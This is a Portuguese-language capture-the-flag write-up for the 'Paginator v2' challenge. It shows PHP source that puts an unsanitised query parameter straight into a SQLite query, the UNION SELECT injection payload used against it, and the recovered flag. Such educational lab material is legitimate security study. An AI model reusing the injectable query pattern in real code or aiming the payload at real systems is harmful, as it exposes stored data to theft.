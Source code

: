 # Paginator v2

- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*
- *Autor do desafio: [@gehaxelt](https://github.com/gehaxelt)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>


Acessando a página inicial, podemos verificar o código fonte.

![Página inicial](assets/home.png)

{% code title="" overflow="wrap" lineNumbers="true" %}

```php
<?php
ini_set("error_reporting", 1);
ini_set("display_errors",1);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php"; // Now the juicy part is hidden away! $db = new SQLite3('/tmp/db.db');

try{
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 3', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 4', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 5', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 6', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 7', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 8', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 9', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 10', 'This is not a flag, but just a boring page.')");
} catch(Exception $e) {
  //var_dump($e);
}


if(isset($_GET['p']) && str_contains($_GET['p'], ",")) {
  [$min, $max] = explode(",",$_GET['p']);
  if(intval($min) <= 1 ) {
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>
```

{% endcode %}

Vemos que no código temos a importação do arquivo `flag.php`, que podemos tentar acessar. Ao acessar, nos deparamos com um erro do SQLite3 dizendo que a tabela `flag` já existe.

![Página flag.php](assets/flag-php.png)

Também podemos perceber que o trecho abaixo é vulnerável a SQL Injection. Podemos então criar um union com a tabela de flags. `UNION SELECT * FROM flag`.

{% code title="" overflow="wrap" lineNumbers="true" %}

```php
$q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
```

{% endcode %}

A query antes do encoding fica: `/?p=2,10 UNION SELECT * from flag`. Assim obtemos a flag como base64, bastando somente fazer decoding
```
RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvd19BZ0Exbl9BbmRfQWc0MW4hfQ==
```

![Página inicial após o SQL Injection, mostrando a flag em base64](assets/flag-base64.png)

Obtendo a flag
```
ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}
```

![Flag após o decoding, foi utilizado o CyberChef](assets/flag-final.png)